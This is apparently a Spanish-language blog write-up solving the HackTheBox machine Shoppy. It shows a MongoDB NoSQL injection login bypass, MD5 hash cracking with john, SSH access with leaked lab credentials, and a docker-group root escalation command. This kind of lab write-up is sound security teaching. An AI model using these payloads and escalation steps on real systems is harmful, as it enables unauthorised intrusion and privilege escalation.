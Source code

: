 ```yaml
---
title: HackTheBox - Shoppy
categories: [Linux]
tags: [HackTheBox, eJPT, Linux]
---
```


<img src="/assets/HTB/Shoppy/shoppy.png">

En este post voy a explicar como resolver la máquina Shoppy de [Hack The Box](https://app.hackthebox.com/machines/Shoppy), en la cual vamos a estar bypasseando un panel de login mediante una ```inyección NoSQL``` de MongoDB y para la escalada de privilegio nos aprovecharemos de que estamos en el grupo ```Docker```.

## Escaneo de puertos

```
nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 13:35 -03
Nmap scan report for 10.10.11.180
Host is up (0.51s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si intentamos ingresar al servidor web que está corriendo en el puerto 80, nos redirigirá a ```shoppy.htb```, vamos a agregarlo a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.11.180   shoppy.htb" >> /etc/hosts
```

# Enumeración

Al ingresar a ```shoppy.htb``` veremos esto.

<img src="/assets/HTB/Shoppy/shoppy-pagina.png">

Si hacemos fuzzing, descubriremos un directorio llamado ```/admin``` el cual nos redirigirá a ```/login```.

```
$ dirsearch -u http://shoppy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220545

Output File: /home/onyx/.dirsearch/reports/shoppy.htb/-_22-12-12_14-17-42.txt

Error Log: /home/onyx/.dirsearch/logs/errors-22-12-12_14-17-42.log

Target: http://shoppy.htb/

[14:17:43] Starting:
[14:17:46] 302 -   28B  - /admin  ->  /login
[14:17:46] 200 -    1KB - /login
```

Si lo observamos desde la web podemos ver un panel para iniciar sesión.

<img src="/assets/HTB/Shoppy/shoppy-login.png">

Este panel los podemos bypassear haciendo uso de la siguiente ```inyección NoSQL``` de ```MongoDB```: ```admin'||'1==1```.

<img src="/assets/HTB/Shoppy/inyeccion-nosql.png">

Una vez que hemos iniciado sesión, vemos un panel de administración, si ponemos el payload anteriormente usado para bypassear el panel de login en el buscador nos da una opción de exportar el resultado, en este resultado veremos 2 usuarios y sus respectivos hashes, los cuales vamos a intentar romper usando la herramienta john.

<img src="/assets/HTB/Shoppy/export-data.png">

```
$ echo "admin:62db0e93d6d6a999a66ee67a" > hashes
$ echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
$ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:00 DONE (2022-12-12 14:43) 14.28g/s 11602Kp/s 11602Kc/s 11602KC/s renato1989..reiji
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Sí hacemos fuzzing para descubrir subdominios, encontraremos el siguiente: ```mattermost.shoppy.htb```, este subdominio también debemos agregarlo al archivo ```/etc/hosts```

```
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -fs 169 -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 387ms]
```
# Ganada de acceso

Si le echamos un vistazo, podremos ver que hay otro ```panel de login```, en el cual ```podemos utilizar las credenciales anteriormente obtenidas```, una vez estemos conectados veremos una conversación en la cual nos dan las ```credenciales``` para conectarnos por ```SSH```.

<img src="/assets/HTB/Shoppy/credenciales-ssh.png">

```
$ ssh jaeger@10.10.11.180
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.180' (ED25519) to the list of known hosts.
jaeger@10.10.11.180's password: Sh0ppyBest@pp!


Last login: Mon Dec 12 12:07:16 2022 from 10.10.16.26
jaeger@shoppy:~$ cat user.txt
a3d**************************1f3
```

# Enumeración del sistema
Si listamos nuestros privilegios de sudoers, veremos que podemos ejecutar el binario ```/home/deploy/password-manager``` como el usuario ```deploy```.

```
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: 1234
Access denied! This incident will be reported !
```

Si le hacemos un cat al binario, y ordenamos el output, veremos que la contraseña se filtra, la cual es ```Sample```.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Al usar la contraseña filtrada, el programa nos reveló la contraseña del usuario deploy, vamos a convertirnos en ese usuario.  

```
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
# Escalada de privilegios

Viendo el output del comando id, vemos que estamos en el grupo ```docker```, si lo buscamos en la página de [GTFObins](https://gtfobins.github.io/gtfobins/docker/#shell) podemos ver que hay una manera de lanzarnos una shell como el usuario root.

```
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)

deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
3e1**************************7b1
```